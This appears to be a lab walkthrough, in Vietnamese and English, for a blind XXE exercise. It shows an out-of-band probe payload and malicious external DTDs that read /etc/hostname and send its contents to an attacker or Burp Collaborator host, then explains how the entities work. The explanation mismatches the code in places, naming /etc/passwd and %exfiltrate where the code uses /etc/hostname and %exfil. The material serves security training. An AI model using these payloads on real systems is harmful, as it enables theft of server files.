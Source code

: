 ### 5. Exploiting blind XXE to exfiltrate data using a malicious external DTD
**Yêu cầu**
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, exfiltrate the contents of the `/etc/hostname` file. 

**Thực hiện**
- Cũng như bài lab #4, trước tiên ta xác định lỗ hổng SSRF bằng OOB.
Payload
```XML
<!DOCTYPE name [<!ENTITY % abc SYSTEM "http://jaxx7bdprmz48fnsc4q1si1ho8uziq6f.oastify.com">%abc;]>
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
![alt text](img/image-11.png)

- Như vậy là xác nhận được lỗ hổng bước tiếp theo là tìm cách để trích xuất data.
- Kịch bản ở đây sẽ là chúng ta sẽ tạo 1 tệp `.dtd` được lưu ở server (attacker). Khi ứng dụng mục tiêu xử lý XML có lỗi XXE (XML External Entity Injection), nó sẽ tải file `.dtd` từ server của kẻ tấn công, và thực thi các entity được khai báo bên trong để trích xuất dữ liệu nhạy cảm từ hệ thống.
- Xây dựng file `dtd` và để chúng trên `exploit server`.
```XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM 'http://attacker-server?leak=%file;'>">
%eval;
%leak;
```
![alt text](img/image-12.png)

- Thực hiện chèn XML ở chức năng checkStock. Mục tiêu là `fetch` tới `.dtd` được đặt tại host của `attacker`.
![alt text](img/image-13.png)

- Gửi đi và quan sát ở Burp Colaborator
![alt text](img/image-14.png)

- Hoàn thành lab

**Note**
Có 2 dạng DTD thường được sử dụng:
- **Internal DTD**: Khai báo trực tiếp trong file XML, giúp định nghĩa cấu trúc và quy tắc của tài liệu XML ngay trong chính file đó. 
- **External DTD**: Khai báo trong một file `.dtd` riêng biệt và được tham chiếu từ file XML. Trong tấn công XXE injection, kẻ tấn công thường sử dụng External DTD để truy xuất dữ liệu nhạy cảm từ hệ thống mục tiêu và gửi đến server do chúng kiểm soát.

```XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Cách hoạt động của file DTD:
- Định nghĩa một parameter entity %file chứa nội dung file /etc/passwd.
- Định nghĩa một entity %eval, trong đó khai báo entity %exfiltrate để gửi request HTTP đến attacker kèm nội dung %file.
- Gọi entity %eval để thực thi khai báo entity %exfiltrate.
- Gọi entity %exfiltrate để gửi dữ liệu về attacker.
